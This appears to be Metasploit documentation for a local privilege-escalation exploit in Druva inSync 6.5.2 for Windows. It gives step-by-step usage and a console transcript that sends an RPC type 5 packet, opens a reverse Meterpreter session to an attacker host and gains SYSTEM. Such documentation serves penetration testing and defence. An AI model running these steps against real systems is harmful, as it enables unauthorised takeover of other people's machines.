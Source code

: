 ## Vulnerable Application

  Druva inSync client for Windows exposes a network service on TCP port
  6064 on the local network interface. inSync versions 6.5.2 and prior
  do not validate user-supplied program paths in RPC type 5 messages,
  allowing execution of arbitrary commands as SYSTEM.

  This module has been tested successfully on inSync version
  6.5.2r99097 on Windows 7 SP1 (x64).

  Download:

  * https://downloads.druva.com/downloads/inSync/Windows/6.5.2/inSync6.5.2r99097.msi


## Verification Steps

  1. Start `msfconsole`
  2. Get a session
  3. `use exploit/windows/local/druva_insync_insynccphwnet64_rcp_type_5_priv_esc`
  4. `set SESSION <SESSION>`
  5. `check`
  6. `run`
  7. You should get a new *SYSTEM* session


## Options

  ### WritableDir

  A writable directory file system path. (default: `%TEMP%`)


## Scenarios

### Windows 7 SP1 (x64)

  ```
  msf5 > use exploit/windows/local/druva_insync_insynccphwnet64_rcp_type_5_priv_esc 
  msf5 exploit(windows/local/druva_insync_insynccphwnet64_rcp_type_5_priv_esc) > set session 1
  session => 1
  msf5 exploit(windows/local/druva_insync_insynccphwnet64_rcp_type_5_priv_esc) > set lhost 172.16.191.165
  lhost => 172.16.191.165
  msf5 exploit(windows/local/druva_insync_insynccphwnet64_rcp_type_5_priv_esc) > run

  [*] Started reverse TCP handler on 172.16.191.165:4444 
  [*] Connecting to 127.0.0.1:6064 ...
  [*] Sending packet (122 bytes) to 127.0.0.1:6064 ...
  [*] Sending stage (176195 bytes) to 172.16.191.242
  [*] Meterpreter session 2 opened (172.16.191.165:4444 -> 172.16.191.242:49337) at 2020-04-30 22:01:05 -0400
  
  meterpreter > getuid
  Server username: NT AUTHORITY\SYSTEM
  meterpreter > sysinfo 
  Computer        : TEST
  OS              : Windows 7 (6.1 Build 7601, Service Pack 1).
  Architecture    : x64
  System Language : en_US
  Domain          : WORKGROUP
  Logged On Users : 2
  Meterpreter     : x86/windows
  meterpreter > 
  ```

